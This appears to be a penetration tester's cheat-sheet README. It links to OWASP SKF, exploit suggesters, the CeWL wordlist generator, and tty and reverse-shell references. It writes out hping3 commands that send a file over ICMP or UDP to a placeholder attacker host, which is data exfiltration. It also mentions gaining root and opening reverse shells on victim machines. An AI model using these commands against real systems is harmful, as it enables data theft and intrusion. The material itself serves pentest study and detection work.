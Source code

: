 ## OWASP Security khowledge Framework
SKF is a fully open-source Python-Flask web-application that uses the OWASP Application Security Verification Standard to train you and your team in writing secure code, by design.

https://securityknowledgeframework.org/demo.php


## Send file through hping3 (Data leak)
1- check the file size using `ls -la`

2.a - To send the file as an **icmp** using hping3 command

`sudo hping3 ATTCKERIP --icmp -d FILESIZE -c 1 --file FILENAME`

2.b - To send the file as a **UDP** using hping3 command

`sudo hping3 ATTCKERIP --udp -d FILESIZE -c 1 --file FILENAME`

3 - (Optional) On the attacker machine you might disable replying icmp using iptables

**NOTE: This attack is simply detected using IDS/IPS**

## Suggester:
A simple code for Checking your local host system for available exploites

#### Linux suggester: https://github.com/mzet-/linux-exploit-suggester

#### windows suggester: https://github.com/GDSSecurity/Windows-Exploit-Suggester

## Custome Word list Generator
CeWL is a ruby app which spiders a given URL to a specified depth, optionally following external links, and
returns a list of words which can then be used for password crackers such as John the Ripper.
https://github.com/digininja/CeWL


## Spawn tty shell

If you are a normal user with root privilage to any of these commands, you can have root privilage using the commands
below
https://netsec.ws/?p=337


## Reverse shell

Getting a Reverse shell through a vulnerability found in the victim machine

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

